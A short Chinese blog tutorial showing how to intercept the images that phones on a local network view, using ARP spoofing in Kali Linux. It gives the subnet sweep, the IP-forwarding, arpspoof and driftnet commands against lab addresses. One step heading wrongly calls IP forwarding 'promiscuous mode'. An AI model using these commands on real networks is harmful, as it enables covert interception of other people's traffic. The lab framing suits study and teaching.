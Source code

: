 ```yaml
---
title: Kali中利用ARP欺骗拦截图片
tags:
  - Arp欺骗
  - kali
date: 2017-04-08 20:43:04
---
```


## 攻击环境

#### 网关：

`192.168.155.1`
<!-- more -->
#### 攻击主机：

`Kali linux 2016.2`

`IP：192.168.155.4`

#### 被攻击主机：

`坚果YQ607`

`IP：192.168.155.3`

`IPHONE(IOS9.3.5)`

`IP：192.168.155.2`

##  攻击步骤

#### 0x00 查看ip及网卡信息

`ifconfig`

#### 0x01 探查同网段主机

`fping -g 192.168.155.1/24`

#### 0x02 设置混杂模式

`echo 1 >> /proc/sys/net/ipv4/ip_forward  `

#### 0x03 用arpspoof来进行中间人攻击

`arpspoof -i eth0 -t 192.168.155.1 192.168.155.3`

#### 0x04 查看网卡拦截的图片

`driftnet -i eth0`

![](/img/kaliarp.png)